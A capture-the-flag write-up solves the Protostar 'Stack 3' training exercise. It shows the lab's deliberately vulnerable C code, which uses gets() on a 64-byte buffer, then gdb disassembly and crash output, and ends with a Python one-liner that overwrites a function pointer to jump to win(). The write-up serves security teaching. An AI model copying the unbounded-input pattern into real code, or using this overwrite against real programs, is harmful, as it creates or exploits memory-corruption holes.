 # PROTOSTAR : STACK 3
[Protostar:Stack3](https://exploit.education/protostar/stack-three/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

We need to fill the **buffer** variable first then append the address of the **win()** function so that the poiner ***fp** goes to the **win()** function.

### **SOLUTION**

Below is the disassembly of the **main()** function
```
user@protostar:/opt/protostar/bin$ gdb -q stack3
Reading symbols from /opt/protostar/bin/stack3...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048438 <main+0>:    push   ebp
0x08048439 <main+1>:    mov    ebp,esp
0x0804843b <main+3>:    and    esp,0xfffffff0
0x0804843e <main+6>:    sub    esp,0x60
0x08048441 <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:   lea    eax,[esp+0x1c]
0x0804844d <main+21>:   mov    DWORD PTR [esp],eax
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    eax,0x8048560
0x08048461 <main+41>:   mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:   mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:   mov    DWORD PTR [esp],eax
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
0x08048477 <main+63>:   leave  
0x08048478 <main+64>:   ret    
End of assembler dump.
(gdb) 
```

Running input and analyzing the program. **Padding = 68** and as you can see the function pointer jumps to **0x41414141** but since it is not a valid memory address it show **Segmentation Fault**.
```
(gdb) b *0x08048450
Breakpoint 1 at 0x8048450: file stack3/stack3.c, line 18.
(gdb) r
Starting program: /opt/protostar/bin/stack3 

Breakpoint 1, 0x08048450 in main (argc=1, argv=0xbffff874) at stack3/stack3.c:18
18      stack3/stack3.c: No such file or directory.
        in stack3/stack3.c
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
calling function pointer, jumping to 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) 
```

Now lets replace the last four bytes with the address of the **win()** function. Before replacing, lets find the address of the win function first.
```
user@protostar:/opt/protostar/bin$ objdump -t stack3 | grep "win"
08048424 g     F .text  00000014              win 
```


Filled the **buffer** then appended the string with the address of the **win()** function.
```
user@protostar:/opt/protostar/bin$ (python -c "print 'A'*64 + '\x24\x84\x04\x08'") | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
user@protostar:/opt/protostar/bin$ 
```

